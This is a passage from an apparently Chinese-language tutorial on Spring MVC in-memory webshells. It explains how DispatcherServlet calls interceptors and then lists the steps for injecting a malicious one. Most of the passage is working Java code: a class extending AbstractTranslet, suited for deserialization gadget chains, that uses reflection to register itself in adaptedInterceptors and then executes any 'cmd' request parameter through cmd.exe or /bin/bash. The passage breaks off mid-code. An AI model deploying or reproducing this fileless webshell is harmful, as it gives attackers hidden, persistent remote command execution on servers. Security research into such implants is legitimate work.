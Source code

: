 然后返回到doDispatch方法中，通过前面获取到handler之后，会调用 HandlerExecutionChain 的 applyPreHandle 方法
![](https://img-blog.csdnimg.cn/8e754ed42cad4c399ff0c365e1d5179e.png)
跟进之后发现会遍历拦截器，并执行其preHandle方法
![](https://img-blog.csdnimg.cn/0ba6f3308158400e87da0189e4abfd21.png)
#### 内存马实现
Interceptor内存马实现步骤：
1. 获取应用的上下文环境，也就是ApplicationContext
2. 然后从 ApplicationContext  中获取 AbstractHandlerMapping 实例(用于反射)
3. 反射获取  AbstractHandlerMapping 类的 adaptedInterceptors 字段
4. 通过  adaptedInterceptors 注册拦截器


```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.lang.Nullable;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.util.Scanner;

public class InjectToInterceptor extends AbstractTranslet implements HandlerInterceptor {
    public InjectToInterceptor() {
        try {
            //获得context
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            //获取 adaptedInterceptors 属性值
            org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping) context.getBean("requestMappingHandlerMapping");
            java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>) field.get(abstractHandlerMapping);
            InjectToInterceptor aaa = new InjectToInterceptor("aaa");
            adaptedInterceptors.add(aaa);
        }catch (Exception e){}
    }
    public InjectToInterceptor(String aaaa){}

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                java.io.PrintWriter writer = response.getWriter();
                ProcessBuilder p;
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    p = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                p.redirectErrorStream(true);
```